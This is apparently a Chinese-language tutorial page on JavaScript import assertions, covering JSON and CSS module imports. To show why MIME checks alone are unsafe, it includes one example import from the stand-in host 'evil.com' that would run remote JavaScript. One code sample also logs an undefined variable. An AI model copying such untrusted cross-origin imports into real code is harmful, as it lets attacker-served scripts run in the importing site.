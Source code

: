 ```yaml
---
description: import assertions 导入断言
keywords:
  - JavaScript
image: https://raw.githubusercontent.com/Minghaoox/pics/main/myicon.png
tags: [JavaScript]
---
```



import Highlight from '../../src/components/highlight'

默认情况下，ES Module 只能导入 JS 代码。

ES Module 无法导入 JSON, 而 CommonJS 支持导入 JSON。

``` js title="✅ commonjs.cjs"
const config = require('./config.json')
console.log(config.other.time); // 20220202
```

```js title="❌ es.mjs"
import config from './config.json' assert  { type: 'json' }
console.log(config) //Error: ERR_IMPORT_ASSERTION_TYPE_MISSING
```

### 为什么不支持 JSON Module

Web 平台在执行模块资源之前，会检查 **MIME 类型的有效性**，但是仅仅依赖 MIME 会**存在安全问题**。

模块允许跨源导入，所以第三方服务器有可能使用 JavaScript MIME 的类型却恶意的将 JavaScript 作为响应，并在导入程序的域中运行该恶意代码。

```js
// Executes JS if evil.com responds with a
// JavaScript MIME type (e.g. `text/javascript`)!
import data from 'https://evil.com/data.json';
```

所以，文件扩展名并不能用来确定文件的类型。

**解决方案**: 必须由开发者使用导入断言来指定它应该是 JSON 文件，如果 MIME 类型与预期不符合，则应导入失败。

### import assertions

这个[新的提案](https://github.com/tc39/proposal-import-assertions)已经进入第三阶段，它允许将 JSON 导入 ES Module 中。

新的导入断言特性允许模块导入语句在模块旁包含其他信息，通过下面的语法导入：

```js
import json from "./foo.json" assert { type: "json" };
import("foo.json", { assert: { type: "json" } });

console.log(foo) 
```



另外，[CSS module scripts](https://chromestatus.com/feature/5948572598009856) 也可以使用导入断言，未来将会更加完善。

```css title="styles.css"
@import url('./atImported.css'); /* div: background-color: blue; 但会被 css module 忽略 */
div {
    border: 1em solid green;
}
```

```html title="index.html"
<script type="module">
    import styles from './styles.css' assert { type: "css" };
    document.adoptedStyleSheets = [styles];
</script>

<div>这个div应该是绿色的边框，但不会有蓝色背景</div>
```




:::note  参考资料
 
 https://v8.dev/features/import-assertions

 https://dmitripavlutin.com/javascript-json-modules/

 https://chromestatus.com/feature/5948572598009856

 https://github.com/tc39/proposal-import-assertions
 
 https://web.dev/css-module-scripts/

:::